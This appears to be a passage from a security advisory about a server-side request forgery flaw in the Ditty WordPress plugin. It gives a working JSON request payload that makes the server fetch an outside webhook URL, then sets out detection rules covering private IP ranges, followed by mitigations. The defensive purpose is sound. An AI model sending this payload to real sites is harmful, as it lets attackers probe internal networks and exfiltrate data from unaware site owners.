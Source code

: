```http
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
  "apiData": {
    "layouts": [
      {
        "id": "ssrf_layout",
        "html": "{image default_src=\"https://webhoo12312312k.site/3aa51640-4d0f-4fa0-a724-0eeb3d5bbd49\"}",
        "css": ""
      }
    ],
    "items": [
      {
        "item_id": "1",
        "item_type": "default",
        "item_value": { "content": "SSRF demo" },
        "layout_value": { "default": "ssrf_layout" }
      }
    ]
  }
}
```



---

## Detection and Monitoring

🔎 **Web Server Logs**  
- Look for calls to `wp-json/dittyeditor/v1/displayItems`.  
- Investigate suspicious `source_url` values targeting private IP ranges.  

🔎 **Outbound Traffic Analysis**  
- Monitor unexpected traffic from the server to external or internal IPs.  

🔎 **IDS/IPS Rules**  
- Flag requests targeting `127.0.0.1`, `169.254.*`, `10.*`, `192.168.*`.  

---

## Mitigation

✅ **Permanent Fix**  
- Update the Ditty plugin to **3.1.58 or later**.  

✅ **Temporary Workarounds**  
- Block the vulnerable endpoint (`displayItems`) at WAF or reverse proxy.  
- Restrict outbound connections using a “default deny” firewall policy.  
- Regularly review logs for suspicious requests.  
